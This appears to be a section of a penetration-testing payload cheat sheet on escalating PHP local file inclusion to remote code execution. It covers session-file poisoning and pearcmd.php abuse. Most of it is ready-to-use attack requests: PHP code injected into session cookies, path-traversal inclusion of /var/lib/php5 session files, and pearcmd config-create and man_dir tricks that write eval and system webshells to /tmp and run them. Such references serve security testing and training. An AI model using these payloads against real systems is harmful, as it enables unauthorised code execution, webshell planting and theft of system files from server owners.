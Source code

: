 
## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/sessions/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


## LFI to RCE via PHP PEARCMD

PEAR is a framework and distribution system for reusable PHP components. By default `pearcmd.php` is installed in every Docker PHP image from [hub.docker.com](https://hub.docker.com/_/php) in `/usr/local/lib/php/pearcmd.php`. 

The file `pearcmd.php` uses `$_SERVER['argv']` to get its arguments. The directive `register_argc_argv` must be set to `On` in PHP configuration (`php.ini`) for this attack to work.

```ini
register_argc_argv = On
```

There are this ways to exploit it.

* **Method 1**: config create
  ```ps1
  /vuln.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_GET['cmd'])?>+/tmp/exec.php
  /vuln.php?file=/tmp/exec.php&cmd=phpinfo();die();
  ```

* **Method 2**: man_dir
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/exec.php+-d+man_dir=<?echo(system($_GET['c']));?>+-s+
  /vuln.php?file=/tmp/exec.php&c=id
  ```
  The created configuration file contains the webshell.
  ```php
  #PEAR_Config 0.9
  a:2:{s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}s:7:"man_dir";s:29:"<?echo(system($_GET['c']));?>";}
  ```
